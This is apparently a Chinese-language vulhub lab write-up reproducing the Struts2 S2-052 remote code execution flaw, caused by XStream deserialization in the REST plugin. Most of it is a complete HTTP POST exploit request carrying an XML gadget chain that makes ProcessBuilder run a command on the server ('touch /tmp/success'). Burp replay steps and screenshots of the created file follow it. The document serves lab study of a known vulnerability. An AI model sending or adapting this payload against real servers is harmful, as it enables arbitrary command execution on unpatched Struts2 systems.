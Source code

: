 # Struts2_052_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行

### 0x01漏洞介绍

​			Struts2 REST插件的XStream组件存在反序列化漏洞，使用XStream组件对XML格式的数据包进行反序列化操作时，未对数据内容进行有效验证，存在安全隐患，可被远程攻击。

​			影响版本

  		2.1.2 - 2.3.33      2.5 - 2.5.12

### 0x02漏洞复现

#### payload1(RCE)：

POST /orders/3/edit HTTP/1.1 Host: your-ip:8080 Accept: */* Accept-Language: en User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0) Connection: close Content-Type: application/xml Content-Length: 2415  <map>   <entry>     <jdk.nashorn.internal.objects.NativeString>       <flags>0</flags>       <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">         <dataHandler>           <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">             <is class="javax.crypto.CipherInputStream">               <cipher class="javax.crypto.NullCipher">                 <initialized>false</initialized>                 <opmode>0</opmode>                 <serviceIterator class="javax.imageio.spi.FilterIterator">                   <iter class="javax.imageio.spi.FilterIterator">                     <iter class="java.util.Collections$EmptyIterator"/>                     <next class="java.lang.ProcessBuilder">                       <command>                         **<string>touch</string>                         <string>/tmp/success</string>**                       </command>                       <redirectErrorStream>false</redirectErrorStream>                     </next>                   </iter>                   <filter class="javax.imageio.ImageIO$ContainsFilter">                     <method>                       <class>java.lang.ProcessBuilder</class>                       <name>start</name>                       <parameter-types/>                     </method>                     <name>foo</name>                   </filter>                   <next class="string">foo</next>                 </serviceIterator>                 <lock/>               </cipher>               <input class="java.lang.ProcessBuilder$NullInputStream"/>               <ibuffer></ibuffer>               <done>false</done>               <ostart>0</ostart>               <ofinish>0</ofinish>               <closed>false</closed>             </is>             <consumed>false</consumed>           </dataSource>           <transferFlavors/>         </dataHandler>         <dataLen>0</dataLen>       </value>     </jdk.nashorn.internal.objects.NativeString>     <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>   </entry>   <entry>     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>     <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>   </entry> </map>



​			**访问struts2-rest-showcase界面**

![S2_052_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_052_rce_1.jpg)

​			**Burpsuite重放，代码成功执行**

![S2_052_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_052_rce_2.jpg)

​			**进入docker，发现success文件被创建**

![S2_052_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_052_rce_3.jpg)



### 0x03参考资料

https://blog.csdn.net/qq_29647709/article/details/84954575
